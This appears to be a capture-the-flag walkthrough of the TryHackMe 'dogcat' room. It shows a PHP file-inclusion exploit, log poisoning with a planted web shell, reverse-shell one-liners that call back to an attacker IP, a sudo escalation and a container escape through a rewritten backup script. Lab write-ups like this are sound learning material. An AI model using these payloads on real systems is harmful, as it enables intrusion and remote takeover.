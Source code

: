 # dogcat CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **dogcat** CTF challenge on [TryHackMe](https://tryhackme.com/room/dogcat). 
---

we see open ports 22 and 80

![scn](img/scn.png "scn")

here is a main site, we can pick between a dog and cat picture

![mp](img/mp.png "mp")

if we take a look a the source code we see that picture location is: `dogs/9.jpg` we can try to access this picture directly via link `http://IP/dogs/9.jpg`

![sc](img/sc.png "sc")

![pc](img/pc.png "pc")

by trying to manipulate the parameter we see some first errors

![pw](img/pw.png "pw")

next if we try to change the parameter to dogs we see php errors

```
Warning: include(dogs.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24

Warning: include(): Failed opening 'dogs.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```

![er1](img/er1.png "er1")

now if we try to include the index.php we see diffrent errors

![id](img/id.png "id")

```
Warning: include(dogsindex.php.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24

Warning: include(): Failed opening 'dogsindex.php.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```

first we see that one `.php` was added to our path that we tried to access

we can try with some php wrappers

we can try to use 

```
http://10.10.211.105/?view=php://filter/convert.base64-encode/resource=dogs/../index    # we use index without .php, it will be completed by server
```

![wr](img/wr.png "wr")

no we need to simply decode from base64

```index.php

        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
```

now from source code we know about `ext` parameter, now we can try to use LFI to access /etc/passwd by using parameters view and ext, `/?view=dogs/../../../../../etc/&ext=passwd` so the result will be `dogs/../../../../../etc/passwd`

![p](img/p.png "p")

from passwd file we dont see any user with home folder, so we probably wont find ssh key

we can try checking apache logs in /var/log/apache2/access.log

![lg](img/lg.png "lg")

it works we see our tries to access the server

now we can change User-Agent header and try log poissoning

![pois](img/pois.png "pois")

we see our changed User-Agent reflected in page source

now we can try to insert some php code 

```
<?php system($_GET['cmd']); ?>
```

then we add cmd parameter to our request and we see ls output, now we have RCE from LFI

![ls](img/ls.png "ls")

we can confirm by using id command

![idd](img/idd.png "idd")

now we need to use some php reverse shell, we can use this one but we need to url encode special characters 

```
php -r '$sock=fsockopen("10.X.X.X",8888);system("/bin/bash <&3 >&3 2>&3");'
```

![rs](img/rs.png "rs")

now we have shell access as www-data

![www](img/www.png "www")

we found first and second flag

![f1](img/f1.png "f1")

![f2](img/f2.png "f2")

looking at sudo -l and then checking GTFObins we have very easy way to become root

![sdl](img/sdl.png "sdl")

![gt](img/gt.png "gt")

```
sudo /usr/bin/env /bin/sh
```

now we have root access and we can grab third flag from root directory

![f3](img/f3.png "f3")

we might be inside container, we cant use python to upgrade shell and also we see .dockerenv

![op](img/op.png "op")

in /opt we see some script and tar file

![bc](img/bc.png "bc")

we can try to manipulate the script to escape the container 

```
$ cd /opt/backups
$ echo "#!/bin/bash" > backup.sh
$ echo "/bin/bash -c 'bash -i >& /dev/tcp/10.14.91.59/9999 0>&1'" >> backup.sh
```

![rss](img/rss.png "rss")

now we wait for a short while and we are hit by another reverse shell 

we can grab last flag

![f4](img/f4.png "f4")

# MACHINE PWNED
